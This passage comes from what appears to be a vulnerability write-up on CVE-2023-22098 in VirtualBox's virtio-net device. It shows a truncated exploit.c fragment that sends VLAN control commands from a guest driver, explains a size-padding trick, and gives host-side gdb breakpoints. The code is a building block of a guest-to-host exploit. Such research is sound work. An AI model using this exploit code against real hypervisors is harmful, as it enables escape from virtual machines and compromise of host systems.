 Therefore, in our exploit, we can do the following:

```c

[Truncated]

if (value & (1ULL << i))
    cmd = VIRTIONET_CTRL_VLAN_ADD;
else
    cmd = VIRTIONET_CTRL_VLAN_DEL;

// Setting the control header
dev->ctrl->hdr.class = VIRTIONET_CTRL_VLAN;
dev->ctrl->hdr.cmd   = cmd;
dev->ctrl->vlanId    = cpu_to_virtio16(vdev, offset * 8 + i);

// Initialize scatterlist
sg_init_one(&sgs[0], dev->ctrl, sizeof(struct command_entry) + 4);
psgs[0] = &sgs[0];

// Add the buffer to the control queue
virtqueue_add_sgs(dev->vqueues[2], psgs, 1, 0, dev, GFP_KERNEL);

// Kick queue to process the command
virtqueue_kick(dev->vqueues[2]);

// Wait for the command to be processed
while (!virtqueue_get_buf(dev->vqueues[2], &len) && !virtqueue_is_broken(dev->vqueues[2]))
{
    cpu_relax();
}

[Truncated]

```
{: file="exploit.c" }


*Note: I added the `+4` to satisfy the check `cbRemaining > sizeof(cVirtqPairs)`. Something strange is happening with
VBox, as it doesn't seem to handle the size correctly.*

![cbRemaining](/assets/img/CVE-2023-22098/note_cbRemaining.png)

If we set a breakpoint at `src/VBox/Devices/Network/DevVirtioNet.cpp:2536`, we can verify that the `uClass` has been
correctly set. Additionally, we can set another breakpoint at `src/VBox/Devices/Network/DevVirtioNet.cpp:2467` to check
that the value of `uVlanId` is as expected:

![uClass gdb](/assets/img/CVE-2023-22098/gdb1.png)
